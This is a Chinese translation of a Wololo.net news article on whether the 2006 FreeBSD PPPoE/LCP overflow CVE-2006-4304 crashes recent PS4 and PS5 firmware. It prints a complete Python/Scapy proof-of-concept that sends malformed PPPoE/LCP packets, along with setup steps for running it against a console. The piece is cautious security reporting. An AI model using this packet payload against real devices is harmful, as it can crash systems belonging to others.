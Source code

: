 <!--yml

类别：未分类

日期：2024-05-27 14:31:00

-->

# 一个18年前的漏洞是否是下一个PS5/PS4越狱的关键？- Wololo.net

> 来源：[https://wololo.net/2024/02/01/is-an-18-year-old-vulnerability-the-key-to-the-next-ps5-ps4-jailbreak/](https://wololo.net/2024/02/01/is-an-18-year-old-vulnerability-the-key-to-the-next-ps5-ps4-jailbreak/)

![](img/abebd53dcd746c4a44571ca3d2db9bea.png)

最初看起来像恶作剧的东西可能会变成实际的PS4/PS5漏洞。虽然现在人们不应过于乐观，因为这可能只是个泡影，但它比表面上看起来的更有趣。

最近几天，在PS4/PS5黑客的Discord、论坛和Twitter上，关于一项18年前的CVE的讨论愈演愈烈。有些人声称，2006年披露的一个网络漏洞可以被利用来越狱最近的PS4和PS5固件，甚至可能是[TheFloW](https://wololo.net/tag/TheFloW)在他最近的一个PlayStation漏洞赏金中使用的漏洞之一（或者是一系列漏洞中的一个）。

早期测试似乎**表明PS4固件在11.00版本及之前，PS5固件在8.20版本及之前确实存在崩溃问题**（这意味着这个问题的补丁可能在[PS5 8.40和PS4 11.02固件](https://wololo.net/2023/12/06/ps5-firmware-8-40-and-ps4-11-02-are-out-and-theres-something-interesting-in-there-dont-update/)中）。

我将首先承认，我最初将原始消息视为恶作剧，但是**这个说法似乎是有根据的**：一个PoC（概念证明）文件正在传播，多人证实它会使他们的PS4和PS5崩溃，直到上述的固件版本。现在，**崩溃本身当然不是漏洞（更不用说可利用的漏洞了）**，但这意味着这个说法现在已经离开了“恶作剧”的领域，值得进一步探讨。而且还有更多内容……

## **2006年的CVE以及PS4/PS5的崩溃PoC**

在人们过度兴奋之前，我想说**这仍然应被视为谣言，或者至少是需要更多有经验的开发人员实际挖掘的事情**。然而，到目前为止发生了以下事情：

+   一个来自2006年的旧CVE（[CVE-2006-4304](https://www.cvedetails.com/cve/CVE-2006-4304/)）最初被一些匿名用户报告为“PS4/PS5 KEX”，就在几天前。包括我在内的多人最初对这一说法持怀疑态度：“不可能有一个18年前的FreeBSD 4漏洞存在于基于FreeBSD 9或以上的PS4或PS5上。”

![](img/d7619f298eef90690aad5cae2b547494.png)

+   然而，一些人已经测试了正在传播的[poc](https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37)（请注意，提供这个PoC在他们github上的@Colek并不是最初声称这一点的人），并确认它会导致他们的PS4/PS5控制台崩溃，一直到某些特定的固件版本（显然包括PS4 11.00和PS5 8.20）。

![](img/fd57d70e3c9041e1f50a8f2c9fa6acab.png)

![](img/abebd53dcd746c4a44571ca3d2db9bea.png)

截图由hhk2003提供

**CVE内容**：

> *FreeBSD 4.11到6.1中sppp驱动程序中的缓冲区溢出，NetBSD 2.0到20060823之前的4.0 beta，以及OpenBSD 3.8和20060902之前的3.9允许远程攻击者通过制作的Link Control Protocol (LCP)数据包，其选项长度超过总长度，触发(1) pppoe和(2) ippp中的溢出，从而导致拒绝服务（崩溃），获取敏感信息，并可能执行任意代码。*

这似乎是FreeBSD/NetBSD网络堆栈中的一个bug。暂且不论18年前的漏洞如何仍存在于现代游戏机中是多么疯狂，至少我们知道TheFloW过去一直在大量调查这部分代码（目前已知的PS5内核漏洞仅来自TheFloW，与网络堆栈相关）。

**漏洞描述**：

```
from scapy.all import PPPoED, Ether, sniff, sendp, srp1, hexdump

source = b"\xXX\xXX\xXX\xXX\xXX\xXX" # MAC address of your adapter on PC
destination = b"\xXX\xXX\xXX\xXX\xXX\xXX" # MAC address of LAN on your PS4
interface = "Realtek PCIe 2.5GbE Family Controller #2" # get via "ipconfig /all" or eth0 or similiar on Linux

packet = sniff(iface=interface, filter="pppoed", count=1)
tag_value = packet[PPPoED][0].tag_list[1].tag_value
payload = destination + source + b"\x88\x63\x11\x07\x00\x00\x00\x0c\x01\x03\x00\x08" + tag_value
sendp(payload, iface=interface)

packet = sniff(iface=interface, filter="pppoed", count=1)
payload = destination + source + b"\x88\x63\x11\x65\x00\x01\x00\x0c\x01\x03\x00\x08" + tag_value
sendp(payload, iface=interface)

packet = sniff(iface=interface, filter="pppoes", count=1)
payload = destination + source + b"\x88\x64\x11\x00\x00\x01\x00\x09\xc0\x21\x01\x01\x00\x07\xab\xff"
packet = srp1(Ether(payload), iface=interface)
print(hexdump(packet))

payload = destination + source + b"\x88\x64\x11\x00\x00\x01\x00\x09\xc0\x21\x01\x01\x00\x07\xab\xff" + b"\xff" * 256 # this number might be different, just a guess
for i in range(20):
sendp(payload, iface=interface)
```

## 结论：PS4/PS5上是否存在新的漏洞？

我脑海中浮现了几个想法：

+   依我看，如果一个CVE中的bug在某个系统上已经修复，通常不应该在打了补丁后再导致崩溃。我知道在某些罕见的情况下，崩溃可能是唯一的出路，但根据我的经验，大多数bug修复都意图优雅地处理错误情况。**崩溃不是利用漏洞**，但看到这段代码实际上导致PS4和PS5崩溃确实很有趣。

    +   一个更可能的解释，而不是一个旧的bug浮出水面，是一个新的（或类似的）bug，碰巧通过代码库中的相似路径触发了。

    +   也有可能，PS4/PS5网络堆栈的一些部分不是基于FreeBSD，而是一些其他PS4/PS5特定的代码，可能仍然存在问题，因为它们不是FreeBSD补丁的一部分。

+   **我特别感兴趣的是一些最近的固件没有崩溃**。这**意味着Sony已经修复了一些问题，或者在最近的固件中修改了那个区域的代码**（实际上在PS4 11.02和PS5 8.40发布时有[强烈暗示](https://wololo.net/2023/12/06/ps5-firmware-8-40-and-ps4-11-02-are-out-and-theres-something-interesting-in-there-dont-update/)）。这是进一步确认，这个崩溃可能与最近向Sony工程师披露的漏洞有关（例如，TheFloW的一个漏洞并不是不可能的情况）。

+   有些人已经确认，有缺陷的代码确实在某个时间点存在于 PS4 的代码库中。尤其是在 PS5 研发 Discord 中，SlidyBat 表示 PS4 中似乎确实有某些函数使用了旧的有缺陷代码：

![](img/bcb248dd281b3a6f20ce9b99b4839872.png)

![](img/c63d66c0e851e0950365ffe173a678e0.png)

![](img/4b41463a03c4b95f3c9176dfd36c70da.png)

## 下载并测试 PoC

当然，现在**还为时过早去说这是否会对 PS4 和 PS5 产生任何影响**，但毫无疑问，这看起来**比我最初想象的要有趣得多**，就在几天前。我们目前处于早期阶段，尽管这对于没有足够技能进一步挖掘的人来说并不实用，但或许试着在他们的 PS4 和 PS5 上运行 PoC 也无妨。

随意尝试并在评论中报告这是否导致了您的控制台崩溃（以及您使用的固件版本）。

请理解，在当前阶段，这只会使您的控制台崩溃，并且设置起来并不明显：您需要一些基本的脚本技能。如果您不能按照如何编辑脚本和运行它的说明操作，我强烈建议您不要费心了。

1.  在此获取 PoC：[https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37](https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37)

    +   需要 Python 3 和 Scapy。

1.  通过 LAN 电缆将您的 PS4/PS5 直接连接到 PC。

1.  为您的 PS4/PS5 设置手动以太网连接通过 PPPoE - 输入任何用户名/密码。

1.  根据您的家用 PC 和目标控制台更新“源”、“目的地”和“接口”细节在脚本中。 <-- **如果您不知道如何操作并且无法弄清楚，请立即停止，这并不适合您，也不会有所帮助**

1.  在控制台上使用“测试互联网连接”。

1.  启动脚本。

如果成功，它将会使您的控制台崩溃。

## 参考资料

+   原始声明：[https://wololo.net/2024/01/26/ps5-update-8-60-is-here-and-guess-what-dont-update/comment-page-1/#comment-6543161](https://wololo.net/2024/01/26/ps5-update-8-60-is-here-and-guess-what-dont-update/comment-page-1/#comment-6543161)

+   PS4/PS5 的 PoC：[https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37](https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37)

+   CVE：[https://www.cvedetails.com/cve/CVE-2006-4304/](https://www.cvedetails.com/cve/CVE-2006-4304/)

+   OpenBSD 修补程序以修复 2006 年的漏洞：[https://ftp.openbsd.org/pub/OpenBSD/patches/3.8/common/014_sppp.patch](https://ftp.openbsd.org/pub/OpenBSD/patches/3.8/common/014_sppp.patch)

*正如我在这篇文章中尽力做到准确和精确。如果您注意到有遗漏或错误的地方，请在评论中告诉我。谢谢*
